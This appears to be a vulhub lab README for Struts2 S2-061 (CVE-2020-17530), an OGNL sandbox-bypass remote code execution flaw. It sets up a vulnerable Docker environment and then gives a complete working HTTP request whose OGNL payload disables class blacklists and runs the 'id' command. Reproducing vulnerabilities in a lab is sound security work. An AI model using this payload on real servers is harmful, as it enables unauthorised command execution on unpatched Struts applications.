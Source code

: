 # Struts2 S2-061 Remote Code Execution Vulnerablity (CVE-2020-17530)

[中文版本(Chinese version)](README.zh-cn.md)

In the versions prior to Struts 2.5.25, when evaluated on raw user input in tag attributes, may lead to remote code execution.

This vulnerability is the bypass of the OGNL sandbox, which enhance after S2-059.

References:

- https://cwiki.apache.org/confluence/display/WW/S2-061
- https://github.com/ka1n4t/CVE-2020-17530
- https://www.anquanke.com/post/id/225252
- https://mp.weixin.qq.com/s/RD2HTMn-jFxDIs4-X95u6g

## Setup

Start a Struts 2.5.25 server:

```
docker-compose up -d
```

After the environment is started, visit `http://your-ip:8080/` and you will see a simple page. It is just a copy application of the [S2-059](https://github.com/vulhub/vulhub/tree/master/struts2/s2-059), except for the different Struts versions.

## Exploit

Send the following request to execute the `id` command:

```
POST /index.action HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Length: 829

------WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Disposition: form-data; name="id"

%{(#instancemanager=#application["org.apache.tomcat.InstanceManager"]).(#stack=#attr["com.opensymphony.xwork2.util.ValueStack.ValueStack"]).(#bean=#instancemanager.newInstance("org.apache.commons.collections.BeanMap")).(#bean.setBean(#stack)).(#context=#bean.get("context")).(#bean.setBean(#context)).(#macc=#bean.get("memberAccess")).(#bean.setBean(#macc)).(#emptyset=#instancemanager.newInstance("java.util.HashSet")).(#bean.put("excludedClasses",#emptyset)).(#bean.put("excludedPackageNames",#emptyset)).(#arglist=#instancemanager.newInstance("java.util.ArrayList")).(#arglist.add("id")).(#execute=#instancemanager.newInstance("freemarker.template.utility.Execute")).(#execute.exec(#arglist))}
------WebKitFormBoundaryl7d1B1aGsV2wcZwF--
```

It can be seen that the result of the `id` command will be displayed on the page:

![](1.png)
